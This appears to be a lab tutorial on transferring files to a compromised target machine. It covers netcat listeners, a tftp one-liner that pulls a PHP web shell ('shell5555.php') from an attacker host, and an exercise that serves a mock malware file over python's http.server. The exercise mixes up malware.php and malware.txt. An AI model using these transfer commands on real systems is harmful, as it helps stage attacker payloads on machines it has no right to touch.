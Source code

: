
## Netcat
Another easy way to transfer files is by using netcat.

Netcat is a command line tool for writing and reading data in the network. For data transfer, Netcat uses the TCP/IP and UDP network protocols. Originally, this tool comes from the Unix universe but today it is available on all platforms

Because of its versatility, Netcat is often referred to as the "Swiss Army knife of TCP/IP". For example, it can be used to diagnose errors and problems that jeopardize the functionality and security of a network. Netcat's range of features also includes port scanning, data streaming or simple data transfers. In addition, it can be used to set up chat and web servers as well as to initiate email requests. This simple software was developed in the mid-1990s and can operate in both server and client mode.

If you can't have an interactive shell it might be risky to start listening on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't do ctr-c because that will kill your session.

So instead you can connect from the target machine like this.

On kali machine:
````
nc -lvp 4444 < file
````

On student machine:
````
nc 10.12.181.X 4444 > file
````


## Tftp
On some rare machine we do not have access to nc and wget, or curl. But we might have access to tftp. Some versions of tftp are run interactively, like this:
````
$ tftp 10.12.181.X
tftp> get myfile.txt
````

If we can't run it interactively, for whatever reason, we can do this trick:

````
tftp 10.12.181.X <<< "get shell5555.php shell5555.php"
````

## Exercises 

1. On your Kali machine, create a file named malware.php.
    ````
    echo "This is a malware file" > malware.php
    ````
    Then, in the same directory, ccreate a temporary server with python on port 5000.
    ````
    python3 -m http.server 5000
    ````
2. On your Student machine, download the malware.txt file with the wget command.
    > Your command : ***wget http://localhost:5000/malware.txt***

